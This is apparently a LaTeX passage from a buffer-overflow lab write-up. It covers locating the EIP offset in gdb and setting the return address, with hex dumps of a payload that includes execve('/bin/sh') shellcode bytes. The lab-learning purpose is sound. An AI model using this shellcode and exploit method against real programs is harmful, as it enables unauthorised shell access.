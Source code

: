 \documentclass{article}
\begin{document}
First we write sequential data into our "badfile" instead of the nop slide. While this
can be done more sophisticated, this small snippet works for our purposes:
\begin{verbatim}
content = bytearray((i % 255) + 1 for i in range(517)) 
\end{verbatim}
filling our badfile up, while carefully avoiding a terminating null-byte. Our payload
now looks like this\\
\begin{tabular}{r r r r r r r r r}
00000000:&\color{blue}ddcc&\color{blue}bbaa&0506&0708&090a&0b0c&0d0e&0f10\\
00000010:&1112&1314&1516&1718&191a&1b1c&1d1e&1f20\\
00000020:&2122&2324&2526&2728&292a&2b2c&2d2e&2f30\\
\multicolumn{9}{c}{$\vdots$}\\
000001e0:&e2e3&e4e5&e6e7&e8e9&eaeb&eced&\color{red}ee31&\color{red}c050\\
000001f0:&\color{red}682f&\color{red}2f73&\color{red}6868&\color{red}2f62&\color{red}696e&\color{red}89e3&\color{red}5053&\color{red}89e1\\
00000200:&\color{red}99b0&\color{red}0bcd&\color{red}80
\end{tabular}\\
Blue coloring being the adress, red coloring being the shellcode. We then ran the
program against our new payload in gdb, and look at the EIP at the time of crash: 
$0x74737271$. Remembering the system is in little-endian, we now locate this point in our payload:

\begin{tabular}{r r r r r r r r r}
00000000:&\color{blue}ddcc&\color{blue}bbaa&0506&0708&090a&0b0c&0d0e&0f10\\
00000010:&1112&1314&1516&1718&191a&1b1c&1d1e&1f20\\
\multicolumn{9}{c}{$\vdots$}\\
00000070:&\color{green}7172&\color{green}7374&7576&7778&797a&7b7c&7d7e&7f80\\
\multicolumn{9}{c}{$\vdots$}\\
000001e0:&e2e3&e4e5&e6e7&e8e9&eaeb&eced&\color{red}ee31&\color{red}c050\\
000001f0:&\color{red}682f&\color{red}2f73&\color{red}6868&\color{red}2f62&\color{red}696e&\color{red}89e3&\color{red}5053&\color{red}89e1\\
00000200:&\color{red}99b0&\color{red}0bcd&\color{red}80
\end{tabular}\\
And our offset is now $0x70$. Plugging that into our python script, along with the
previously recorded return adress $0xbffff0e0$ we get a new payload. Remembering that
our nop-slide now has a return adress which definitely isn't valid instructions, we
change the returncode to $0xbffff0e0 + offset + 4$ and we now get our final shellcode
\end{document}

